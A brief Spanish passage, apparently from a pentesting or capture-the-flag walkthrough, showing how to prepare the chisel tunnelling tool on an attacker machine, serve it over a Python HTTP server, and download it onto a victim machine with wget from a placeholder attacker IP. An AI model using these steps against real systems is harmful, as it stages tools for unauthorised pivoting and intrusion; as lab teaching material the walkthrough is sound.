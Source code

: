 - En la máquina atacante:

```
https://github.com/jpillora/chisel/releases
```

Instalamos la versión de linux amd64 en formato gz

![gobuster](Imagenes/32.5.png)

```
gunzip chisel_1.10.1_linux_amd64.gz
```

```
mv chisel_1.10.1_linux_amd64 chisel
```

```
chmod +x chisel
```

```
python -m http.server 80
```

- En la máquina víctima:

```
wget http://<IP_ATACANTE>/chisel
```
```
chmod +x chisel
```
